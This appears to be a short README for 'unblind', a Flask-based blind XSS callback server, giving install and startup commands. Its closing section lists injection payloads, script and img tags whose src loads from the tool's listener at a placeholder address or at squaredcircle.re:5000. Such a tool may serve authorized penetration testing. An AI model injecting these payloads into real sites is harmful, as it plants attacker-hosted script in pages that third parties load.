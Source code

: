 
First, install dependencies:
```
$ pip3 install Flask
$ pip install Flask-SQLAlchemy
$ pip install flask_login
$ pip install pyopenssl
```

Then, create the database and set the environment and start the app:
```
$ python3
>>> from unblind import db, create_app
>>> db.create_all(app=create_app())
>>> exit()
$ export FLASK_APP=project
$ export FLASK_DEBUG=1
$ flask run -h 0.0.0.0 -p 5000
$ cd certs
$ openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
$ flask run --cert=certs/cert.pem --key=certs/key.pem -h 0.0.0.0 -p 5000
```

The first time you log on, you will need to create a user/password. Choose them well.

Then trigger a Blind XSS with something like:
```
"><script src='://<ip>:<port>/unblind/xss/unique_str'></script>
"><script src='http://squaredcircle.re:5000/unblind/xss/unique_str'></script>
"><img src='http://squaredcircle.re:5000/unblind/xss/unique_str'/>
```

The tool is not beautiful neither fully functionnal. Need improvements ! Be my guest !



